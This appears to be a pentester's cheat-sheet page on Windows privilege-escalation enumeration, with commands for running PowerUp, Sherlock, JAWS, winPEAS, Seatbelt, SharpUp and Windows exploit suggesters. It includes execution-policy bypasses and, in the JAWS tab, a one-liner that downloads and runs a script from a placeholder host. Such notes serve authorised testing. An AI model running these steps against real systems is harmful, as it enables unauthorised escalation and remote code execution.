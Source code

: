 # enumeration\_auto

## Path fix

```powershell
set PATH=C:\Windows;C:\Windows\system32;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%

Get-ExecutionPolicy -List
Set-ExecutionPolicy Unrestricted
```

## Check Arch, Process, Release ID

[get OS info from version](https://docs.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-osversioninfoexa?redirectedfrom=MSDN#remarks)

```powershell
PS> [system.environment]::Is64BitOperatingSystem
PS> [system.environment]::Is64BitProcess
> echo %PROCESSOR_ARCHITECTURE%

PS > Get-ComputerInfo | select WindowsProductName, WindowsVersion, OsHardwareAbstractionLayer
PS> (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" -Name ReleaseId).ReleaseId
PS> (Get-WmiObject -class Win32_OperatingSystem).Caption
PS> [System.Environment]::OSVersion.Version
```

## [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) | [Sherlock.ps1](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) | [JAWS.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1) | [enjoiz-privesc.ps1](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)

{% tabs %} {% tab title="PowerUp.ps1" %}

```powershell
# located at /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1

> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
[OR]
PS> . .\PowerUp.ps1
PS> Invoke-AllChecks
```

{% endtab %}

{% tab title="Sherlock.ps1" %}

```powershell
> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
[OR]
PS> . .\Sherlock.ps1
PS> Find-AllVulns
```

{% endtab %}

{% tab title="JAWS.ps1" %}

```powershell
# located at /opt/JAWS/jaws-enum.ps1

> powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('http://IP/jaws.ps1')
```

{% endtab %}

{% tab title="enjoiz-privesc.ps1" %}

```powershell
# located at /opt/Privesc/privesc.ps1
> powershell.exe -exec bypass -Command "& {Import-Module .\p.ps1; Invoke-Privesc -Groups 'Users,Everyone,Authenticated Users' -Whoami -Extended -Long}"
```

{% endtab %} {% endtabs %}

## [winPEAS ](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)| [Seatbelt ](https://github.com/GhostPack/Seatbelt)| [SharpUp](https://github.com/GhostPack/SharpUp)

{% tabs %} {% tab title="winPEAS" %}

```powershell
# need .NET 4.0
# cmd check
> dir /b %windir%\Microsoft.NET\Framework\v*
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4" /s

# check for .NET using PS
PS> cmd.exe /c dir /b %windir%\Microsoft.NET\Framework\v*
PS> Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version

winPEASany.exe quiet [cmd fast] [flag]
# systeminfo; userinfo; processinfo;
# servicesinfo; applicationsinfo; networkinfo;
# windowscreds; browserinfo; filesinfo; eventsinfo
```

{% endtab %}

{% tab title="Seatbelt" %}

```powershell
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\Seatbelt.exe -group=[all | <check>] -outputfile="FULL-PATH"
```

{% endtab %}

{% tab title="SharpUp" %}

```powershell
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\SharpUp.exe
```

{% endtab %} {% endtabs %}

## [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) | [wes-ng](https://github.com/bitsadmin/wesng)

{% tabs %} {% tab title="windows-exploit-suggester" %}

```bash
# needs python2
# copy .
# FIX: python2 -m pip install 'xlrd==1.2.0'

./windows-exploit-s.py --update
./windows-exploit-s.py -d <DB-FILE> -i <SYSTEMINFO.txt> [--hotfixes <>]

# if cannot get hotfixes using systeminfo
wmic qfe list full
```

{% endtab %}

{% tab title="wes-ng" %}

```bash
python3 /opt/wesng/wes.py sys.txt --update
python3 /opt/wesng/wes.py systeminfo.txt [--exploits-only] -o wes.csv
# --impact | -i "Remote Code Execution" | "Elevation of Privilege"
# --severity critical
```

{% endtab %} {% endtabs %}

{% embed url="https://github.com/SecWiki/windows-kernel-exploits" %}

